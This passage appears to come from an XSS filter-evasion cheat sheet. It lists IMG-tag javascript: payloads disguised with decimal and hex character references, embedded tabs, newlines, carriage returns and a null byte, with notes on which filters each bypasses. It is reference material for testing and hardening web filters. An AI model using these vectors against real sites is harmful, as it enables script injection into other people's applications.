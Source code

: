     <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

## Hexadecimal HTML character references without trailing semicolons

This is also a viable XSS attack against the above string $tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

    <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

## Embedded tab

Used to break up the cross site scripting attack:

    <IMG SRC="jav	ascript:alert('XSS');">

## Embedded Encoded tab

Use this one to break up XSS :

    <IMG SRC="jav&#x09;ascript:alert('XSS');">

## Embedded newline to break up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

    <IMG SRC="jav&#x0A;ascript:alert('XSS');">

## Embedded carriage return to break up XSS

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

    <IMG SRC="jav&#x0D;ascript:alert('XSS');">

## Null breaks up JavaScript directive

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
